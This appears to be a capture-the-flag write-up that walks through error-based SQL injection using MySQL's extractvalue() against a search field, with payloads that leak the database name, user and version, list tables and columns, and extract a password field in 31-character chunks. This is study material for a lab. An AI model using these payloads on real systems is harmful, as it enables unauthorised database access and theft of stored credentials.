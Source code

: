 # SHODAN WRITE UP - SQLI ERROR

> Tags : sql  
> Difficulty : medium  
> Attack type : error-based xpath sql injection  

This challenge is the continuation of the walkthrough sql injection.  
On this one, unlike sqli easy, we will focus on a different vector: the errors generated by the database.  
Here we will use the XPATH `extractvalue()` function in order to generate errors and modify the output in an arbitrary manner.  

For each query that we will send, if the XPATH syntax is incorrect, we will receive an error message, which is of interest to us here.  
Indeed, it is not always possible to use UNION based injection, and errors can allow us to extract data.  

When arriving on the site, we find our article search field (checking the vulnerability of the input with the keyword IGNOREME in the source code).  
We can start injecting payloads.  
As for the sqli easy, let's start with the most basic payload : `' OR 1=1 #`.  

As a reminder, here is an assumption of the query present on the server side:  
```sql
SELECT * FROM item WHERE item_name = '$user_input' [...]
```
The starting quote in our payload therefore serves to close the field in which a word is contained, and the ending hashtag, comment in SQL, is used not to interpret the rest of the initial request (including the IGNOREME).    
As for `OR 1=1`, it allows you to generate the following request:    
```sql
SELECT * FROM item WHERE item_name = '' OR 1=1
```
`1=1` being always true, the database is supposed to return to us all that contains `item`.  

![sql-error-dump](/images/sql-error-dump.png)

Now let's try a payload that will cause an error, using the function provided for this purpose, `extractvalue()`.  
```sql
' OR 1=1 AND extractvalue(rand(),concat(0x0a,database())) #
```
The `extractvalue()` function take as argument xml, and a sql query.  
Here, by using `rand()`, the function will return an error, which will contain the result of our SQL request.  
To make it simple, we will extract here using the function `database()`the name of our database.  

![sql-error-db](/images/sql-error-db.png)

We can also extract the unix user from the server.  
```sql
' OR 1=1 AND extractvalue(rand(),concat(0x0a,user())) #
```

![sql-error-user](/images/sql-error-user.png)

Finally, among others, it is possible to extract the version of the database.  
```sql
' OR 1=1 AND extractvalue(rand(),concat(0x0a,version())) #
```

![sql-error-version](/images/sql-error-version.png)

Now let's go deeper to extract the data that interests us.  
We must first descend from a layer to know the tables contained in our database, then the columns of each table, in order to be able to extract data.   
Small complexity on an XPATH injection: the error cannot exceed 32 characters.  
So we will have to format our output so that it remains readable.  

Here is the payload used to extract our tables:   
```sql
' OR 1=1 AND extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit x,1))) #
```

The `x` is an `offset`, which allows us to retrieve the tables one by one, by their index.  
We must therefore test each offset to see the existing tables, until we no longer have a result.  
Here, the table that interests us is offset 5 : `customer`.  

![sql-error-table](/images/sql-error-table.png)

Now let's try to find the columns in this table.  
Same principle, we will create a payload that retrieves the names of the columns, specifying an offset to direct us manually.  
```sql
' OR 1=1 AND extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns where table_name='customer' limit x,1))) #
```

![sql-error-column](/images/sql-error-column.png)

The column that interests us is at offset 3, and contains the `password` of all users.  
It only remains for us to extract the flag.  
For this we need to specify two things.  
We are looking for a 128 character password, and must cross-check it with the `substring()` function so as not to exceed the 32 character limit. Then, we will move the offset `x` of our substring in order to go to the end of the flag.  
```sql
' OR 1=1 AND extractvalue(0x0a, concat(0x0a, (select substring(password,x,31) from customer where length(password) = 128))) #
```

![sql-error-flag](/images/sql-error-flag.png)

After having made these manipulations, it only remains for us to enter the flag on the platform.  